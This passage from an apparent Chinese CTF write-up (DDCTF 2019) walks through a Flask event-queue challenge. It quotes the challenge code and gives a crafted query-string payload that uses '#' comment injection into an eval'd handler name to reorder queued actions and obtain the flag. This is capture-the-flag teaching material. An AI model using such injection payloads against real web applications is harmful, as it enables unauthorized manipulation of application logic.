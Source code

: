 看到这里，这个脚本本意是只让你能控制调用的\_handler和\_function。

接下来看要如何得到flag

```python
def get_flag_handler(args):
    if session['num_items'] >= 5:
        trigger_event('func:show_flag;' + FLAG())  # show_flag_function has been disabled, no worries
    trigger_event('action:view;index')
```

session['num_items'] >= 5

如何增加session['num_items'] 

```python
def buy_handler(args):
    num_items = int(args[0])
    if num_items <= 0: return 'invalid number({}) of diamonds to buy<br />'.format(args[0])
    session['num_items'] += num_items
    trigger_event(['func:consume_point;{}'.format(num_items), 'action:view;index'])


def consume_point_function(args):
    point_to_consume = int(args[0])
    if session['points'] < point_to_consume: raise RollBackException()
    session['points'] -= point_to_consume
```

buy_handler先是增加session['num_items'],但是随后又把消耗session['num_items']的函数入队列。而且python（好像）是没有溢出的。

当时就觉得是这里是入手点，buy和cousume分开了。先是想的竞争，后面想了下，是单线程的。

所以需要想个办法把这个女人，不对这两函数分开，中间插个get_flag_handler,这样就可以获得flag了。

payload

```
?action:trigger_event%23;action:buy;5%23action:get_flag;
```

看下会发生什么

![](https://wulasite.top/mdimage/ddctf2019/event1.jpg)

首先看action1=trigger_event#_handler，eval之后其实后面就被截断、注释掉了，所以就可以调用trigger_event，将buy和get_flag先入队。最后flag就在session里，flask的session解密在[P师傅](<https://www.leavesongs.com/PENETRATION/client-session-security.html>)

![](https://wulasite.top/mdimage/ddctf2019/event2.jpg)





## mysql弱口令（未做出）

这题流程还挺简单的，感觉比吃鸡还简单，就是一个知识点。
